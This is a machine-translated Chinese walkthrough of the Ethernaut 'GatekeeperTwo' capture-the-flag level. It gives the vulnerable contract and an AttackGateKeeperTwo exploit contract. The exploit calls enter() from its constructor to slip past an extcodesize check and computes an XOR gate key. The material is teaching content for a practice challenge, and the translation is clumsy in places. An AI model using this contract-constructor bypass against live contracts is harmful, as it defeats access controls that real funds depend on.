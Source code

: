 # 以太人:GatekeeperTwo

> 原文：<https://medium.com/coinmonks/ethernaut-gatekeepertwo-fce56f52f527?source=collection_archive---------47----------------------->

![](img/fbff93a7b66da5d08b9ead1c9851130a.png)

这个把关者带来了一些新的挑战。注册成为参赛者通过这一关。

可能有帮助的事情:

1.  第二个入口中的 assembly 关键字允许一个契约访问非 vanilla Solidity 固有的功能。更多信息见[此处](http://solidity.readthedocs.io/en/v0.4.23/assembly.html)。这个 gate 中的 extcodesize 调用将获得给定地址的合同代码的大小——你可以在[黄皮书](https://ethereum.github.io/yellowpaper/paper.pdf)的第 7 节中了解更多关于如何以及何时设置的信息。
2.  第三个门中的^字符是一个位运算(XOR)，在这里用于应用另一个常见的位运算。

**问题陈述:**为了打败这个关卡，你必须设置**进入者**的值，这是 GatekeeperTwo 契约中的一个公共状态变量。该值只能通过 **enter(bytes8 _gateKey)** 功能设置。这个函数有 3 个修饰符，必须传递它们，然后 entrant 的值才能按预期设置。

> *修饰符 gateOne(): msg.sender！= tx.origin*
> 
> *修饰符 gate two():extcodesize(caller())= = 0*
> 
> *修饰符 gateThree():求 _gateKey 的值，使得按位运算 XOR 的结果必须为 uint64(0) — 1*

**问题合同:**

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

**解决方案:**

1.  通过创建一个 AttackGateKeeperTwo 契约，并从该契约调用 **enter** 函数，可以很容易地传递修饰符 gateOne()。这确保了 tx.origin 是 EOA(外部拥有的帐户)，而 msg.sender 是 AttackGateKeeperTwo 合同的地址。因此，require 语句 msg.sender！= tx.origin 成功通过。
2.  修饰符 gateTwo()若要成功执行，协定的代码大小必须为 0。你可能会想这是如何实现的？我们从 AttackGateKeeperTwo 契约调用 **enter** 这个契约确实有代码附加在它上面，所以它的代码大小将是非零的)，你可能会得出一个结论，我们永远无法绕过修饰符 gateTwo()，然而，事实并非如此。这就是坚固性的微妙之处，正如以太坊黄皮书 *的第 [7 节所述，“在初始化代码执行期间，地址上的 EXTCODESIZE 应该返回零。”](https://ethereum.github.io/yellowpaper/paper.pdf)*因此，通过利用这种微妙性，我们从 AttackGateKeeperTwo 的构造函数调用 **enter** ，因为在此期间，契约的代码大小返回 0。这样，我们也绕过了修饰词 gateTwo()。
3.  修饰符 gateThree()必须是。这是通过下面的**实现的，因为^ b = c 意味着^c = b。在我们的例子中,‘b’是‘gate key’**

[attacketekeeperter 关于林克由](https://rinkeby.etherscan.io/address/0x55de3348c0a9c6ad8006E11172b6a8e3b6a9F0ae#code)的两个合同:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract AttackGateKeeperTwo {
    GatekeeperTwo gTwo = GatekeeperTwo("GateKeeperTwo Deployed Address");
    event GateTwoCompromised(address who, uint256 timestamp);
    /**
    * modifierOne will be passed as tx.origin = EOA and msg.sender = address(this)
    * modifierTwo will be passed as during contract construction the extcodesize is 0
    *               Reference from YellowPaper: During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account.
    * modifirerThree do calculation inside the constructor and pass it as gateKey
    */
    constructor() public {
        // GatekeeperTwo's enter function must be called from here
        // Since a ^ b = c implies a ^c = b. In our case `b` is `gateKey`
        bytes8 gateKey = bytes8((uint64(0) - 1)) ^ bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        gTwo.enter(gateKey);
        emit GateTwoCompromised(address(this), block.timestamp);

    }
}
```

**安全外卖:**

1.  在初始化期间，检查地址的代码大小可以为零。

如果你从这篇文章中学到了什么，请分享并关注更多这样的内容。

*原载于*[*https://www.linkedin.com*](https://www.linkedin.com/pulse/ethernaut-gatekeepertwo-balaji-shetty-pachai/)*。*

> 交易新手？尝试[加密交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)或[复制交易](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)